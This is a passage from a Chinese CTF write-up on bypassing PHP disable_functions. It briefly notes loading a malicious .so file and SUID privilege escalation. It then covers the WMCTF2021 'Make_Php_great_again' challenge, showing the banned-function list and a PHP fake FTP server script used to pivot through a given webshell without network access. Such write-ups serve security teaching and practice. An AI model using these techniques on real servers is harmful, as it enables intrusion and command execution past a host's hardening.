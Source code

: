 这是普通的方式，但是在这里我们会发现这个方法他不行了，不难正常了打完。但是，我们在读取`php.ini`的时候发现了一个so文件,我们就可以通过加载恶意so文件来绕过。

看一下上面的脚本也就知道怎么操作了。

下面还有个suid提权不说了，收工了，困。

![image-20210503214513697](https://i.loli.net/2021/05/03/Sofr6FDwxPkVBJs.png)

### (三) WMCTF2021 Make_Php_great_again

这道题直接给了一个webshell，这是ban掉的函数，很容易想到题目本身的考点，绕过disable

```
var_dump(get_cfg_var('disable_functions')); 
```

```
"stream_socket_client,fsockopen,pfsockopen,ini_alter,ini_set,ini_get,posix_kill,phpinfo,putenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,iconv,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,error_log,debug_backtrace,debug_print_backtrace,gc_collect_cycles,array_merge_recursive"

```

简单看了一下都屏蔽完了，但是file_put_contents没有，所以就可以想到上面的思路。但是这里又有一个问题在于测试发现**不联网**？所以我们可以使用php来搭建一个本地fake_ftp的服务来达到上面的要求。

```php
$socket = stream_socket_server("tcp://0.0.0.0:4628", $errno, $errstr);
if (!$socket) {
  echo "$errstr ($errno)<br />\n";
} else {
  while ($conn = stream_socket_accept($socket)) {
    fwrite($conn,"210 welcome\n");
    echo fgets($conn);
    fwrite($conn,"230 Login successful.\n");
    echo fgets($conn);
    fwrite($conn,"200 Switching to Binary mode.\n");
    echo fgets($conn);
    fwrite($conn,"550 Could not get the file size.\n");
    echo fgets($conn);
    fwrite($conn, "000 use PASV then\r\n");
    echo fgets($conn);
    fwrite($conn, "227 Entering Extended Passive Mode (127,0,0,1,0,11451).\n");
    echo fgets($conn);
    fwrite($conn,"150 Permission denied.\n");
    echo fgets($conn);
    fwrite($conn,"221 Goodbye.\n");
    fclose($conn);
  }
  fclose($socket);
}
```
